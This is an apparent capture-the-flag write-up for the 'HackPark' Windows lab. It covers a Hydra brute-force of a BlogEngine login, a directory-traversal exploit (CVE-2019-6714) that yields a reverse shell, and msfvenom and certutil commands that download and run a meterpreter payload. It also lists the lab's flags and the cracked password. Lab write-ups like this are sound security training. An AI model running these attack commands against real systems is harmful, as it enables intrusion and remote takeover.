



# HackPark

IP Address: 10.10.153.156

## Description

Bruteforce a websites login with Hydra, identify and use a public exploit then escalate your privileges on this Windows machine!

## Flags

1. 1qaz2wsx
2. dff0f748678f280250f25a45b8046b4a
3. 759bd8af507517bcfaede78a21a73e39

## Enumeration/Scanning

### Nmap:
```sh
sudo  nmap -Pn -vv -sC -oN hackpark.nmap 10.10.153.156
# Nmap 7.92 scan initiated Fri Sep 30 20:51:51 2022 as: nmap -Pn -vv -sC -oN hackpark.nmap 10.10.153.156
Nmap scan report for 10.10.153.156
Host is up, received user-set (0.19s latency).
Scanned at 2022-09-30 20:51:52 PDT for 22s
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE       REASON
80/tcp   open  http          syn-ack ttl 127
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
|_http-title: hackpark | hackpark amusements
3389/tcp open  ms-wbt-server syn-ack ttl 127
| ssl-cert: Subject: commonName=hackpark
| Issuer: commonName=hackpark
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2022-09-30T03:44:03
| Not valid after:  2023-04-01T03:44:03
| MD5:   171d 1cb7 2eb4 d0d1 fcf3 ac72 6f5b f174
| SHA-1: c5d0 fa60 2979 b050 dffd 5876 8512 1ba7 f1c9 6ea8
| -----BEGIN CERTIFICATE-----
| MIIC1DCCAbygAwIBAgIQLsOBRmxH471IaYDwKItbazANBgkqhkiG9w0BAQUFADAT
| MREwDwYDVQQDEwhoYWNrcGFyazAeFw0yMjA5MzAwMzQ0MDNaFw0yMzA0MDEwMzQ0
| MDNaMBMxETAPBgNVBAMTCGhhY2twYXJrMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEA3fb4kyfqaYyzml/CAvY4lhYLmmtVWziJsEK5zshm2fPg+wwkYO7d
| G5kdDRKT5MptiMBneRiY1j9MNLnfrllffM4rTp9p+rKpEtj39W/0f9XaVM39aQFj
| KItXo2HdLMtFfJu4J+h/jlJVdp3hEY/GNfNXlEPCyeOWPKUBR7w40/CpmN6522IX
| grF7HTcygB2PSnjWwjaWEPzNLvDN+3Cy6+st9H7yZqm44+zU079bt/yqEo/DP/QA
| v0mxbGyBIEHu4ET72ezWBI2uKXekLxT2udoyO37nAJgWaf0hVOu8iCeeVJbkFj3l
| 5vqyny6D/IKMOj/uy8G02TDKO+IM59rMWQIDAQABoyQwIjATBgNVHSUEDDAKBggr
| BgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQEFBQADggEBAHp54gFE/mwz
| QlB+ez4ruTDoLxl4Dgt28G0Q5zbuqR8Z+bXirmLWgYO4RZ6jaNVkgONJo42RGspu
| sHYKSqWScaKvkPRrsnV5I56Y443JlwHehW1t8Q2Iis7rJ1pqpPfEjGpdShS5q+0f
| NIlW3XxccsLSoPADkRkYciXoA8RQatmzES7HWk8jbFOdFwc2w0ud4JtloUa51hAW
| U2dDVrYstgKYPZtyIAlsnbtoEoCf3fcl5AbP/8QLxzSSzkwHQwQeHUtZeEP5LCDS
| 5aQWgCjthLjxtKQTS+4bZ7MezYjU8AUmEelc92t/rsoE6SJ1ipcBV0QasX7NluZe
| F5HuhFE8VUw=
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: HACKPARK
|   NetBIOS_Domain_Name: HACKPARK
|   NetBIOS_Computer_Name: HACKPARK
|   DNS_Domain_Name: hackpark
|   DNS_Computer_Name: hackpark
|   Product_Version: 6.3.9600
|_  System_Time: 2022-10-01T03:52:10+00:00
|_ssl-date: 2022-10-01T03:52:10+00:00; 0s from scanner time.

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: -1s

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Sep 30 20:52:14 2022 -- 1 IP address (1 host up) scanned in 22.65 seconds
```

### Web Server

#### Port 80

Nmap disovered a web server on port 80, and after navigating there, we discover a login page that we can attempt to exploit.





##### Bruteforcing

Our first attempt is simply to try the username and passwork `admin`, but to no prevail. However, we can utilize `hydra` to try bruteforcing the administrator's login password.

To use `hydra` against a login page, we will need the ip address, request type, path to the login form, modified request, and failed login attempt message. 

**Username:** `admin`

**Request:** `POST`

**IP:** `10.10.153.156`

**Path:** `/Account/login.aspx`

To obtain the form and exploit with it, we must send a request with any login credentials, then capture the request and replace our password and user name with the variable that will be bruteforced, i.e., UserName=^USER^ and Password=^PASS^. However, since we know the username, we can hard code it in.

**Form:**           
`  __VIEWSTATE=YIS2%2B7TbyRvaxzRQ4jpgws3gqghgCnOEdwTNuT7dbhJxWRyhvtSD9m5xjcXUG5TrZtToFjb3bG1%2FzN5Mi7EALTiOmXedDBrF      i4%2FKZnQEC2rpOyDld%2BK5EhsUAo%2FPrkkzh2Q%2Bl%2FXYFRA%2B6lmvB5h12VZ9JAZfO7D3wr4mFX7g5aQQkk%2FV&__EVENTVALIDATION      =APQJyZRJI25qKOxFQDqFAo9MwxX1lNEDW1Lxf7MNMBlW%2BtHMY5APG%2FZwk5%2F2dA%2FZ%2FCR8Xv5bui4CWKOLoh%2BVVmK6GQP1BReCLsS      SFFRrY0%2Ft4ToXC27ZIwphg86wYFMV%2FU0aV1MxDqUzgj9iE%2BQKb7QMteOTfMBgC5%2Bd4aycDRzg26SQ&ctl00%24MainContent%24Logi      nUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24Login      Button=Log+in`
  
**Error Message:** Login failed

###### Exploit

```sh
 sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.153.156 http-post-form "/Account/login.aspx:
 __VIEWSTATE=YIS2%2B7TbyRvaxzRQ4jpgws3gqghgCnOEdwTNuT7dbhJxWRyhvtSD9m5xjcXUG5TrZtToFjb3bG1%2FzN5Mi7EALTiOmX
 edDBrFi4%2FKZnQEC2rpOyDld%2BK5EhsUAo%2FPrkkzh2Q%2Bl%2FXYFRA%2B6lmvB5h12VZ9JAZfO7D3wr4mFX7g5aQQkk%2FV&
 __EVENTVALIDATION=APQJyZRJI25qKOxFQDqFAo9MwxX1lNEDW1Lxf7MNMBlW%2BtHMY5APG%2FZwk5%2F2dA%2FZ%2FCR8Xv5bui4CW
 KOLoh%2BVVmK6GQP1BReCLsSSFFRrY0%2Ft4ToXC27ZIwphg86wYFMV%2FU0aV1MxDqUzgj9iE%2BQKb7QMteOTfMBgC5%2Bd4aycDRzg
 26SQ&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&
 ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
 
 Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
 
 Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-30 21:17:45
 [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
 [DATA] attacking http-post-form://10.10.153.156:80/Account/login.aspx:__VIEWSTATE=YIS2%2B7TbyRvaxzRQ4jpgws3gqghgCnOEdwTNuT7dbhJxWRyhvtSD9m5xjcXUG5TrZtToFjb3bG1%2FzN5Mi7EALTiOmXedDBrFi4%2FKZnQEC2rpOyDld%2BK5EhsUAo%2FPrkkzh2Q%2Bl%2FXYFRA%2B6lmvB5h12VZ9JAZfO7D3wr4mFX7g5aQQkk%2FV&__EVENTVALIDATION=APQJyZRJI25qKOxFQDqFAo9MwxX1lNEDW1Lxf7MNMBlW%2BtHMY5APG%2FZwk5%2F2dA%2FZ%2FCR8Xv5bui4CWKOLoh%2BVVmK6GQP1BReCLsSSFFRrY0%2Ft4ToXC27ZIwphg86wYFMV%2FU0aV1MxDqUzgj9iE%2BQKb7QMteOTfMBgC5%2Bd4aycDRzg26SQ&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
 [STATUS] 834.00 tries/min, 834 tries in 00:01h, 14343565 to do in 286:39h, 16 active
 [80][http-post-form] host: 10.10.153.156   login: admin   password: 1qaz2wsx
 1 of 1 target successfully completed, 1 valid password found
 Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-30 21:19:24
```

Now that we are signed in as admin (username = admin: password = 1qaz2wsx), we can navigate around and discover the version of the software used. Here we find that this is running BlogEngine version 3.3.6.0.



### Exploitation

Searching on [Exploit Database](https://www.exploit-db.com), we find the exploit [BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution](https://www.exploit-db.com/exploits/46353) (CVE-2019-6714). We can use this to obtain a reverse shell on our target.

To exploit this, we need to start a listener, set the TcpClient address and port within the method, then upload the file as PostView.ascx by editing a post and clicking on the icon that looks like an open file in the toolbar. Once uploaded, the file will be in the /App_Data/files directory off of the document root. Finally, the vulnerability is triggered by accessing the base URL for the blog with a theme override specified like so: `http://10.10.10.10/?theme=../../App_Data/files`.


```
10.10.153.156/?theme=../../App_Data/files
```

```sh
 nc -lvnp 4445                                                                                         10:08:33 PM
 listening on [any] 4445 ...
 connect to [10.18.57.77] from (UNKNOWN) [10.10.153.156] 49295
 Microsoft Windows [Version 6.3.9600]
 (c) 2013 Microsoft Corporation. All rights reserved.
 c:\windows\system32\inetsrv>whoami
 iis apppool\blog
``` 

### Meterpreter

Now to set up a meterpreter shell to make privilege escalation easier.

Create the meterpreter payload.

```sh
$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
```

Set up a Server.

```sh
python3 -m http.server 80
```

Set up the handler in metasploit.

```sh
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run
```

On our Windows shell, we need to navigate to a directory we can write to, and then download the meterpreter shell from our python sever.

```
c:\windows\system32\inetsrv> cd "c:\\Users\Public"
c:\Users\Public> certutil -urlcache -f http://10.18.57.77/shell.exe shell.exe 
****  Online  ****
CertUtil: -URLCache command completed successfully.
dir
c:\Users\Public>dir
 Volume in drive C has no label.
  Volume Serial Number is 0E97-C552
   Directory of c:\Users\Public
   09/30/2022  10:26 PM    <DIR>          .
   09/30/2022  10:26 PM    <DIR>          ..
   08/22/2013  08:39 AM    <DIR>          Documents
   08/22/2013  08:39 AM    <DIR>          Downloads
   08/22/2013  08:39 AM    <DIR>          Music
   08/22/2013  08:39 AM    <DIR>          Pictures
   09/30/2022  10:26 PM            73,802 shell.exe
   08/22/2013  08:39 AM    <DIR>          Videos
                  1 File(s)         73,802 bytes
                                 7 Dir(s)  39,129,952,256 bytes free
c:\Users\Public> shell.exe                                
```                                 

Now we should have a meterpreter shell!

```sh
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.18.57.77:4444 
[*] Sending stage (175686 bytes) to 10.10.153.156
[*] Meterpreter session 1 opened (10.18.57.77:4444 -> 10.10.153.156:49324) at 2022-09-30 22:31:34 -0700

meterpreter > 
```

### Privilege Escalation


